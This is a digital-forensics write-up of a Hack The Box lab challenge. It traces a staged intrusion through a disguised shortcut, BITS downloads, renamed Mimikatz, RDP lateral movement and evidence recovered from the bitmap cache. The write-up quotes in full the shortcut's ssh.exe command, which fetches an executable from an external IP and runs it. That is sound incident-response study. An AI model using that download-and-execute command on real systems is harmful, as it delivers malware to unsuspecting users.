### Introduction

This write-up documents my investigation into the **OpTinselTrace24 Sherlock series on Hack The Box**.

Unlike some of my other write-ups, this one is still a work in progress. OpTinselTrace24 is made up of multiple related Sherlock challenges, and I plan on keeping all of my notes and write-ups for each part in this same document as I continue working through them.

For each part, I want to focus less on simply listing the answers and more on documenting how I approached the investigation, what artifacts I used, what stood out to me, and how I connected different pieces of evidence together.

The first part of the investigation already pushed me into an artifact I had never worked with before: the **Remote Desktop bitmap cache**. Once the attacker moved laterally to another system, the normal host artifacts from the original workstation could only tell me so much, so I had to find another way to figure out what happened next.

As I continue through the remaining parts of OpTinselTrace24, I’ll keep adding to this write-up and building out the larger attack story.

---

### Objective

My primary objectives during this investigation were to determine:

- How Bingle Jollybeard's workstation was initially compromised
- What payload was executed and where it originated
- What post-exploitation activity occurred on the workstation
- Whether additional tools or malware were downloaded
- How the threat actor obtained interactive access to the host
- Whether persistence was established
- Whether the attacker moved laterally to another system
- What activity could still be reconstructed after that lateral movement
- What network activity could be associated with the attack

---

### Tools Used

- Eric Zimmerman Tools
  - Timeline Explorer
  - Registry Explorer
  - EvtxECmd
  - PECmd
  - LECmd
- BMC-Tools

---

### Artifacts Analyzed

- Windows Prefetch
- Windows Event Logs
  - `Security.evtx`
  - BITS Client Operational logs
  - RDP CoreTS Operational logs
  - Terminal Services RDP Client Operational logs
- Amcache
- SRU / Network Usage
- Remote Desktop bitmap cache

 

# OpTinselTrace24-1 Sherlock - DFIR Write-up

**Hack The Box Initial Information:**

Krampus, the cyber threat actor, infiltrated Santa Workshop's digital infrastructure. After last year’s incident, Santa notified the team to be aware of social engineering and instructed the sysadmin to secure the environment. Bingle Jollybeard, who is an app developer and will be workinremotely from the South Pole, was visiting the workshop to set up his system for remote access. His workstation was mysteriously compromised and potentially paved the way for Krampus to wreck chaos again this season. Figure out what happened using the artifacts provided by the beachhead host.

 

## Initial Access - Suspicious Shortcut File

Based on the scenario, I started by examining artifacts within **Bingle Jollybeard's user profile**. Since social engineering was specifically mentioned, I was looking for files that could have been delivered to the victim and disguised as something legitimate.

Inside Bingle's Documents directory, one file immediately jumped out at me:

`christmas_slab.pdf.lnk`

The double extension... This file is trying to appear as a PDF although, the it's actually a Windows shortcut (`.lnk`). I inspected its contents to determine what the suspicious shortcut was actually pointing to (what would happen when the user clicks on it).



The shortcut executed the following command:

`C:\Windows\System32\OpenSSH\ssh.exe -o "PermitLocalCommand=yes" -o "StrictHostKeyChecking=no" -o "LocalCommand=scp root@17.43.12.31:/home/revenge/christmas-sale.exe c:\users\public\. && c:\users\public\christmas-sale.exe" revenge@17.43.12.31`

Instead of opening a document, the shortcut abused the legitimate Windows OpenSSH client. The command configured SSH to execute a local command which used `scp` to retrieve: `christmas-sale.exe` from: `17.43.12.31`

The payload was copied into `C:\Users\Public\` and then immediately executed.

This gave me the initial compromise chain:

**User opens malicious shortcut → ssh.exe executes → SCP downloads christmas-sale.exe → christmas-sale.exe executes**

This activity aligns with **MITRE ATT&CK T1204.002 - User Execution: Malicious File**, since execution depended on the victim interacting with the malicious shortcut.

 

## LNK Metadata Analysis

After identifying what the malicious shortcut actually performs, I wanted to determine whether the `.lnk` file contained any additional metadata that could provide information about its origin.

I parsed `christmas_slab.pdf.lnk` using Eric Zimmerman's `LECmd.exe`.



One particularly useful piece of metadata recovered from the shortcut was the machine name associated with its creation: `christmas-destr`

This provided an additional indicator potentially associated with the attacker's infrastructure or development environment - A great example of why I try not to stop after extracting the obvious command from a shortcut file. LNK metadata can often times provide valuable context regarding the system on which the file was created, original paths, volume information, timestamps, and other details that help build attribution or infrastructure leads.

 

## Malicious Payload Execution

With `christmas-sale.exe` identified as the initial payload, my next priority was determining whether it had actually executed on Bingle's workstation.

Windows Prefetch was the most useful artifact for validating this.



Prefetch showed execution of: `christmas-sale.exe` at: `2024-11-05 15:50:33`

This established the first confirmed execution timestamp for the malicious payload and gave me a pivot point for the remainder of the investigation. From this point forward, I treated activity immediately surrounding **15:50 on November 5, 2024** as the primary attacker activity window. Instead of searching every artifact blindly, I could now correlate other events against this timestamp to help determine which activity was likely related to the compromise.

 

## Post-Exploitation Process Enumeration

Once code execution was established, I examined additional Prefetch entries around the same time period to determine what programs were executed after `christmas-sale.exe`.



One binary stood out: `TASKLIST.EXE`, Prefetch showed it executing at: `2024-11-05 15:52:30`

`tasklist.exe` is a legitimate built-in Windows utility used to display currently running processes.

Its presence alone is **not malicious**. However, context matters significantly during forensic analysis. The executable ran less than two minutes after the malicious payload, placing it directly inside the established attacker activity window. There was also little surrounding evidence suggesting normal user activity that would explain the command.

This is also where understanding the user and their normal role becomes extremely valuable during a real investigation. If someone in HR suddenly executes `tasklist.exe` in the middle of an active compromise, that would stand out much more than the same command being executed by a system administrator or someone working in IT.

On the other hand, if the affected user regularly performs administrative work, the execution of `tasklist.exe` alone would not be enough for me to confidently attribute the activity to the attacker. In that situation, I would want additional evidence such as process ancestry, command-line logging, surrounding authentication activity, EDR telemetry, or other correlated events before making that conclusion.

In this case, the timing of `tasklist.exe` relative to the malicious payload, combined with the lack of legitimate user activity around the same period, made it reasonable to associate the execution with the attacker's post-compromise activity.

 

## Secondary Payload Download Through BITS

While reviewing additional Prefetch activity around the initial compromise window, I noticed execution of another legitimate Windows binary:



`bitsadmin.exe` Immediately caught my attention because the Background Intelligent Transfer Service is known to be commonly abused by threat actors to download files while blending into legitimate Windows functionality.

Rather than relying only on the executable's presence, I pivoted into: `Microsoft-Windows-Bits-Client%4Operational.evtx` to determine what BITS was actually transferring.



At: `2024-11-05 15:51:45` a **BITS Event ID 59** recorded a transfer involving: `http://13.233.149.250/candies/candydandy.exe`

The filename was already familiar because I had noticed `candydandy.exe` while reviewing Prefetch earlier in the investigation.



This correlation provided much stronger evidence than either artifact would have by itself:

- Prefetch showed related execution activity
- BITS logs identified the actual remote URI
- Both occurred inside the established compromise timeline

The attacker therefore abused a legitimate Windows capability to retrieve a secondary executable from external infrastructure. This technique maps to **MITRE ATT&CK T1197 - BITS Jobs**.

 

## Identifying candydandy.exe

With the second-stage executable identified, I wanted to learn more about what had actually been downloaded.

I pivoted into Amcache and located an entry for: `candydandy.exe`

Its MD5 hash was: `e930b05efe23891d19bc354a4209be3e`

Analysis of the file metadata indicated that `candydandy.exe` was actually a renamed copy of **Mimikatz**.



The attacker was no longer simply maintaining command-and-control access. They had introduced credential-access tooling onto the compromised workstation.

The sequence now suggested a deliberate progression: **Initial execution → host reconnaissance → secondary tool download → credential-access tooling staged**

This also helped explain the attacker's later ability to authenticate interactively and move deeper into the environment.

 

## Command-and-Control Network Activity

The next question was how much network traffic could be associated with the original `christmas-sale.exe` stager.

For this, I examined **SRU Network Usage** artifacts.



SRU data contained an entry associated with: `christmas-sale.exe`

Across the recorded communication, the process transferred a combined: `541,286 bytes` which equals: `541.286 KB`

While SRU does not reveal the content of the communication, it provides another useful piece of supporting evidence showing that the payload was actively communicating over the network after execution.

 

## Interactive RDP Access

The scenario indicated that RDP was only accessible internally and suggested that the attacker may have obtained Bingle's VPN configuration before connecting to the workstation.

To validate whether an RDP session actually occurred, I examined: `Microsoft-Windows-RemoteDesktopServices-RdpCoreTS%4Operational.evtx`

I focused on **Event ID 98**, which records successful RDP connections.



A successful connection was recorded at: `2024-11-05 16:04:26`

This placed interactive attacker access approximately fourteen minutes after the initial execution of `christmas-sale.exe`.

I then correlated this timestamp with `Security.evtx` rather than treating the RDP log as a standalone artifact.

Around the same time, Windows Security auditing recorded a **4624 successful logon event**, providing additional authentication context.



The connecting system identified in `Security.evtx` was: `XMAS-DESTROYER`

This was an important transition in the intrusion because actions occurring afterward could now represent direct hands-on-keyboard attacker activity rather than automated malware behavior.

 

## Privileged Account Creation

With interactive access established, I continued following Windows Security events forward through the timeline.



At: `2024-11-05 16:09:43` I identified **Security Event ID 4720**, indicating that a new local user account had been created - the account was named: `elfdesksupport`

The account was subsequently granted privileges beyond those of Bingle Jollybeard's existing user account.

Rather than relying entirely on the initial payload or stolen credentials, the attacker created an additional account that could potentially be used to regain access later.

The naming convention is also notable. `elfdesksupport` resembles a legitimate support or administrative account, which could make it less suspicious during a casual review of local users.

 

## Identifying Lateral Movement

After compromising Bingle's workstation, the next stage of the attack was lateral movement.



While reviewing `Security.evtx`, I found **Event ID 4648** activity involving another system in the environment: `northpole-nippy`

Event ID 4648 records a logon attempt where explicit credentials were used, making it especially relevant when investigating credential-driven lateral movement.

I then correlated this with: `Microsoft-Windows-TerminalServices-RDPClient%4Operational.evtx`, these logs contained a corresponding connection event at: `2024-11-05 16:22:36`



The account used to access the remote host was: `northpole-nippy\nippy`

Together, the Security logs and RDP client artifacts showed that the attacker used Bingle's compromised workstation as a pivot point to establish an RDP session to **northpole-nippy**.

 

## Hitting the Edge of the Collected Evidence

At this point, the investigation became significantly more interesting.

The forensic collection I was given came from **Bingle Jollybeard's workstation**.

Once the attacker connected to `northpole-nippy`, anything they did inside that remote session would primarily generate artifacts on **northpole-nippy**, not necessarily on Bingle's machine.

But I did not have a forensic image or event logs from the second host.

This meant my normal sources of evidence had effectively reached their limit.

I could prove the attacker moved laterally, but answering what happened **after** that lateral movement required finding an artifact on Bingle's workstation that preserved some evidence of what the attacker saw or did during the remote session.

Looking through the remaining artifacts, one file stood out: `C:\Users\Bingle Jollybeard\AppData\Local\Microsoft\Terminal Server Client\Cache\Cache0000.bin` I had not worked with this artifact before, so I researched what it contained.



 

## Remote Desktop Bitmap Cache Analysis

Windows Remote Desktop maintains bitmap cache files to improve performance during RDP sessions. Rather than repeatedly transmitting every portion of the remote desktop interface, graphical fragments can be cached locally by the RDP client.

That means even though I did not possess artifacts from `northpole-nippy`, Bingle's workstation potentially contained fragments of what had appeared on the attacker's screen during the session.

After researching tooling capable of parsing the cache, I found **BMC-Tools** from ANSSI: `https://github.com/ANSSI-FR/bmc-tools`



I used `bmc-tools.py` to parse `Cache0000.bin`. The result was approximately **6,400 individual bitmap fragments**.



There was no convenient full-screen screenshot of the attacker's desktop. Instead, I was left with thousands of tiny graphical pieces representing portions of windows, filenames, browser pages, buttons, text, and other interface elements.

Analyzing these fragments required treating them almost like pieces of a puzzle. Rather than searching for one perfect image, I began looking for fragments that appeared visually related and reconstructing context from nearby text, colors, fonts, interface elements, and partial filenames...

 

## Attacker-Controlled Staging Directories

While reviewing the bitmap fragments, I found several pieces that appeared to show a web server directory listing.

The visual appearance resembled a typical `index.html` directory listing, including blue hyperlink-style folder names.

Two directory names could be reconstructed: `candies/` and `sweets/`



The `candies` directory immediately stood out because it matched the URI identified earlier in the BITS logs: `http://13.233.149.250/candies/candydandy.exe`

That correlation substantially increased my confidence that the bitmap fragments were showing attacker-controlled staging infrastructure.

 

## Reconstructing the cookies.exe Download

Near the directory-listing fragments, I located separate bitmap pieces containing portions of what appeared to be an executable filename.

One fragment contained: `cooki` while another contained `es.exe`



Neither fragment independently provided the complete answer. However, their visual context, proximity to the directory listing, and matching formatting allowed me to reconstruct the filename as: `cookies.exe`

This is where bitmap cache analysis differs significantly from artifacts such as event logs. There was no structured record saying: `Downloaded File: cookies.exe`

Based on the surrounding directory-listing fragments, I assessed that the attacker downloaded `cookies.exe` from the same attacker-controlled infrastructure after gaining access to the second workstation.

 

## Persistence on the Remote Host

Additional bitmap fragments appeared to show the attacker interacting with Windows administrative interfaces associated with scheduled tasks.

Again, individual fragments did not provide a perfectly readable screenshot. I had to correlate multiple pieces containing portions of the same interface and text.

From those fragments, I was able to reconstruct the name: `christmaseve_gift`



The surrounding context indicated that this was a persistence mechanism configured through **Windows Task Scheduler**.

When combined with the earlier observation of `cookies.exe`, the likely sequence was: **Attacker downloads cookies.exe → attacker creates a scheduled task → scheduled task is named christmaseve_gift**

This provided evidence that the attacker was establishing persistence on the laterally compromised system. Importantly, this conclusion came entirely from graphical remnants cached on the original workstation rather than native forensic artifacts from `northpole-nippy`.

 

## Additional Internal Reconnaissance

Continuing through the bitmap fragments, I found another set showing browser activity related to:

`Advanced IP Scanner`



Advanced IP Scanner is a legitimate network discovery utility commonly used to identify systems and devices on a network.

In this context, its appearance after successful lateral movement was particularly relevant.

The attacker had already:

- Compromised the initial workstation
- Obtained credential-access tooling
- Established interactive RDP access
- Moved laterally to another host
- Established persistence on that host

Searching for or downloading a network-scanning utility at this stage is consistent with preparation for additional internal reconnaissance and potentially further lateral movement.

The bitmap cache therefore provided evidence that the attacker's activity was likely not intended to stop at `northpole-nippy`. They appeared to be preparing to identify additional reachable systems deeper inside the environment.

 

## Quantifying Lateral Movement Traffic

After learning more about how the Remote Desktop cache was generated, I returned to an artifact I had already used earlier in the investigation: **SRU Network Usage**. The cache files were created as a result of activity from the Windows Remote Desktop Connection client: `mstsc.exe`

I therefore searched SRU network usage for `mstsc.exe`.



One entry contained no meaningful network transfer, but another recorded:

- `14,836,893 bytes` received
- `1,560,628 bytes` sent

Together, this totaled: `16,397,521 bytes` or `16,397.521 KB`

This represented the network traffic associated with the RDP lateral-movement session originating from Bingle's workstation. This was another useful example of returning to an artifact with a new question. Earlier, SRU helped quantify command-and-control communication for `christmas-sale.exe`. After identifying the RDP session and understanding how the bitmap cache was generated, the same artifact became useful for measuring the network activity associated with lateral movement.

 

## Attack Timeline

Based on the artifacts I correlated throughout the investigation, the compromise can be reconstructed as follows:

- **Initial Access:** Bingle Jollybeard receives and opens `christmas_slab.pdf.lnk`.
- **Payload Retrieval:** The malicious shortcut abuses `ssh.exe` and `scp` to retrieve `christmas-sale.exe` from `17.43.12.31`.
- **15:50:33:** `christmas-sale.exe` executes.
- **15:51:45:** BITS begins retrieving `candydandy.exe` from `http://13.233.149.250/candies/candydandy.exe`.
- **15:52:30:** `tasklist.exe` executes, consistent with process discovery during the attacker activity window.
- **Credential Access:** `candydandy.exe` is identified as a renamed Mimikatz binary.
- **16:04:26:** The attacker successfully establishes an RDP session to Bingle's workstation from `XMAS-DESTROYER`.
- **16:09:43:** The attacker creates the privileged `elfdesksupport` account for persistence.
- **16:22:36:** The attacker laterally moves through RDP to `northpole-nippy` using `northpole-nippy\nippy`.
- **Post-Lateral Movement:** Bitmap cache analysis shows access to attacker-controlled `candies/` and `sweets/` staging directories.
- **Tool Staging:** `cookies.exe` is downloaded.
- **Persistence:** A scheduled task named `christmaseve_gift` is configured.
- **Internal Reconnaissance:** The attacker searches for/downloads Advanced IP Scanner, likely preparing to enumerate additional systems.

 

## Final Assessment

The available evidence supports a multi-stage compromise beginning with social engineering and ultimately progressing into interactive access and lateral movement.

The initial foothold was established through `christmas_slab.pdf.lnk`, which disguised malicious functionality behind what appeared to be a PDF-related file. When executed, the shortcut abused the legitimate Windows OpenSSH client to retrieve and launch `christmas-sale.exe`.

Following execution, the attacker performed process discovery and used BITS to retrieve `candydandy.exe`, which was identified as a renamed Mimikatz binary. This indicates that credential access was an important objective early in the attack.

The attacker subsequently established an interactive RDP session to Bingle's workstation from `XMAS-DESTROYER` and created the privileged `elfdesksupport` account, providing an additional persistence mechanism.

Using credentials available after compromising the workstation, the attacker then moved laterally through RDP to `northpole-nippy`.

The most significant challenge from a forensic perspective occurred after this lateral movement. Because the provided collection contained artifacts only from Bingle's workstation, traditional host-based evidence of the attacker's actions on `northpole-nippy` was unavailable.

Analysis of the local Remote Desktop bitmap cache provided an alternative source of evidence.

By parsing `Cache0000.bin` and manually reviewing thousands of graphical fragments, I was able to partially reconstruct the attacker's remote session. Those fragments revealed attacker-controlled staging directories named `candies` and `sweets`, an executable named `cookies.exe`, a persistence task named `christmaseve_gift`, and activity involving Advanced IP Scanner.

Taken together, the artifacts show a clear progression from:

**Social Engineering → Execution → Command & Control → Discovery → Credential Access → Interactive Access → Persistence → Lateral Movement → Additional Persistence → Internal Reconnaissance**

The investigation also demonstrated the importance of artifact correlation. Several individual findings were not conclusive by themselves, but became much more meaningful when placed into the overall timeline and compared against evidence from Prefetch, Windows Event Logs, Amcache, SRU, RDP logs, and bitmap cache data.

 

## Key Indicators

- Malicious shortcut: `christmas_slab.pdf.lnk`
- Initial payload: `christmas-sale.exe`
- Initial attacker IP: `17.43.12.31`
- Secondary payload URL: `http://13.233.149.250/candies/candydandy.exe`
- Secondary payload: `candydandy.exe`
- MD5: `e930b05efe23891d19bc354a4209be3e`
- Attacker workstation: `XMAS-DESTROYER`
- LNK creation machine: `christmas-destr`
- Persistence account: `elfdesksupport`
- Lateral movement target: `northpole-nippy`
- Lateral movement account: `northpole-nippy\nippy`
- Attacker staging folders: `candies`, `sweets`
- Post-lateral-movement payload: `cookies.exe`
- Scheduled task: `christmaseve_gift`
- Reconnaissance utility: `Advanced IP Scanner`

 

## MITRE ATT&CK Mapping

The activity observed during the investigation included:

- **T1204.002 – User Execution: Malicious File**
  - Bingle executes the malicious `christmas_slab.pdf.lnk` shortcut.

- **T1197 – BITS Jobs**
  - BITS is abused to retrieve `candydandy.exe` from attacker infrastructure.

Additional observed behaviors were consistent with broader ATT&CK categories including process discovery, credential access, account creation, remote services, scheduled-task persistence, and network/service discovery.

 

## Next Steps

If this were a live incident, my immediate next steps would include:

- Isolate both Bingle's workstation and `northpole-nippy`.
- Reset credentials associated with Bingle, `nippy`, and any accounts potentially exposed to Mimikatz.
- Disable and investigate the `elfdesksupport` account.
- Search the enterprise for `christmas-sale.exe`, `candydandy.exe`, and `cookies.exe`.
- Hunt for connections to `17.43.12.31` and `13.233.149.250`.
- Search BITS logs enterprise-wide for related downloads.
- Hunt for the scheduled task `christmaseve_gift`.
- Identify other systems contacted by `XMAS-DESTROYER`.
- Review VPN authentication logs to determine how the attacker gained internal RDP reachability.
- Review RDP authentication and client logs for additional lateral movement.
- Search for execution or installation of Advanced IP Scanner across other endpoints.
- Acquire and analyze forensic artifacts directly from `northpole-nippy` to validate the activity inferred through bitmap cache analysis.
- Determine whether credentials recovered through Mimikatz were reused elsewhere in the environment.
- Scope other systems for the same attacker-controlled staging infrastructure and related indicators.

The biggest lesson from this investigation was that reaching the end of the obvious artifacts does not necessarily mean reaching the end of the evidence. The RDP bitmap cache was not initially an artifact I knew how to analyze, but researching its purpose and finding a way to parse it allowed me to reconstruct activity occurring on a host I never actually had access to.

That made this Sherlock especially useful from a DFIR perspective: the final answers depended less on finding a single event log entry and more on recognizing what evidence should exist, understanding what was missing, and finding another artifact capable of filling that gap.
